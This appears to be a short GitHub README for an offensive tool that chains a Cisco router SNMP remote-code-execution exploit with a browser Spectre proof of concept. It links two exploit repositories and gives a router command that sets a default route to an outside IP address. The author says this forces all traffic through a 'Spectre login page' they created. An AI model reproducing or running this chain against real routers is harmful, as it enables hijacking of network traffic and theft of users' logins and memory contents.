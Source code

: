 # CiscoSpectreTakeover
A chain exploit using the recent Cisco SMP exploit (CVE-2017-6736) to chain into Spectre (CVE-2017-5753 and CVE-2017-5715)

## Credits

Cisco RCE Exploit submodule by artkond: https://github.com/artkond/cisco-snmp-rce

JS Spectre Chrome POC by ascendr: https://github.com/ascendr/spectre-chrome

Tested on a Cisco 1841 Router.

After running the RCE exploit. As config, run:

```Router(config)> ip route 0.0.0.0 0.0.0.0 195.20.52.49```

This will force all traffic through the Spectre login page I created. 
At a later date I will add a better version that addresses actually going to websites.
